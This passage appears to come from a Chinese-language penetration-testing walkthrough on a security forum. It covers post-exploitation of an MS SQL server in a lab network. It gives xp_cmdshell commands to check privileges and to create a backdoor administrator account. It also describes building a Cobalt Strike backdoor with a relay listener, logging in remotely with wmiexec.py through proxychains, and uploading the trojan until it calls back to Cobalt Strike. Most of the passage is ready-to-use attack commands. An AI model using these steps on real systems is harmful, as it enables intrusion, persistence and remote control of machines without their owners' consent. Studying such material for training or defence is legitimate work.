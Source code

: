 ![2s4Oc8.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e6a7edf229d7e0fb8075c9651a370e10f1da4a7b.png)

**2）查看当前权限**

```php
exec master..xp_cmdshell "whoami"
```

![2s47tI.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b70eb0a44b7c28f6936ba101fd9e1a37e0d1f26f.png)

system权限，可以创建用户

**3）创建用户并添加至管理员组**

创建`sqltest`用户，密码为`123.com`

```php
exec master..xp_cmdshell "net user test12 123.com /add"
exec master..xp_cmdshell "net localgroup administrators test12 /add"
exec master..xp_cmdshell "net user test12"
```

![2s4Hht.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d41952b3942c6563f760c88a6efc3bee9c884b7c.png)

**4）CS生成后门文件（中转监听器）**

在域控上建立中转监听器

![2s4TAA.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d6211df3e4678c899d3cac3fe9753bc9b47faf92.png)

![2s5Dv8.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-310e1866c46da5901d71a8aa326f3bd5525e9909.png)

将生成好后的文件拷贝到kali上

**5）使用wmiexec工具远程登陆**

```php
proxychains python3 wmiexec.py tset12:123.com@10.12.10.3
```

上传木马文件

![2s4q9P.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6cfc611d83c32dd78f7e1e423f86f4d364a87390.png)

**6）成功上线CS**

![2s4L1f.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ef61f137dc964986d326275e8185f302fce1b51c.png)
